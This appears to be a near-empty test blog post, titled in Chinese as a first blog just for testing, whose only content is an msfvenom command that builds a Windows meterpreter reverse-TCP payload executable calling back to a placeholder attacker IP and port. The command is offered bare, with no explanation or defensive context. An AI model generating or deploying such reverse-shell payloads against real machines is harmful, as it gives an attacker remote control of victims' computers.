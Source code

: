 # 第一个博客，仅作测试

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```
